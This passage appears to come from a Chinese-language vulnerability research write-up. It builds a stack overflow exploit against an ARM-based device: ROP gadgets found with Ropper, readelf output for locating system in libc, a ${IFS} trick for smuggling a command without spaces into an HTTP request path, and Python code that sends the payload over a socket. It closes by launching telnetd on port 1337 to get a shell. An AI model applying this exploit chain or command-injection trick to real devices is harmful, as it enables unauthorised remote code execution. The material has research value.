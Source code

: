 ![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCMdNqtzMibt5ibQibbEYuUZb85mhs9d7obIqHSxk77ZanuC5NibDOib3qxdbLaGJqq9QoUSZn5L99ia2eRA/640?wx_fmt=png&from=appmsg "")  
  
使用 Ropper 寻找 gadgets  
  
经过一段时间的搜索，我想出了以下解决方案：  
```
0x000175cc: pop {r3, pc}
0x000535e8: system
0x000368dc: mov r0, sp; blx r3

```  
  
第一个 gadget 将 R3 设置为可控值并跳转到下一地址。第二个 gadget (mov r0, sp; blx r3  
) 将栈指针移动到 R0（system 函数的第一个参数）并跳转到 R3（我们之前设置为 system 函数的地址）。  
  
函数地址（例如 system）可以通过 readelf -s  
 确定。但需要特别注意，必须将相应二进制文件或库的基地址添加到输出中看到的偏移量。这能确保在构建 ROP chain 时使用正确的地址。  
```
$ readelf -s libc.so.0 | grep system
   659: 0003dfc0    80 FUNC    GLOBAL DEFAULT    7 svcerr_systemerr
   853: 000535e8   116 FUNC    WEAK   DEFAULT    7 system
   864: 000535e8   116 FUNC    GLOBAL DEFAULT    7 __libc_system

```  
  
正如我们之前所了解的，payload 中不能包含任何空格。不过我发现可以通过经典的 ${IFS}  
 技巧14  
轻松绕过这个限制。  
  
将所有内容整合后，我最终构建的 exploit 大致如下所示（完整源代码参见  
此处  
）：  
```
def main():
    maps = fetch_maps()
    libc, libc_base = parse_maps(maps)

    payload = b""
    payload += 304 * b"A"
    payload += pack("<I", libc_base + GADGETS[libc][0]) # pop {r3, pc}
    payload += pack("<I", libc_base + GADGETS[libc][1]) # system
    payload += pack("<I", libc_base + GADGETS[libc][2]) # mov r0, sp; blx r3

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((HOST, PORT))
        sock.send(b"GET /" + payload + CMD.replace(b" ", b"${IFS}") + b";.mns.cab HTTP/1.1")
        sock.send(b"\r\n\r\n")
    
        print(sock.recv(1024))

```  
  
由于无法远程交互的/bin/sh  
命令实际作用有限，我改用telnetd  
在 1337 端口启动本地 telnet 服务器。这使我能够连接并获取 shell。  
  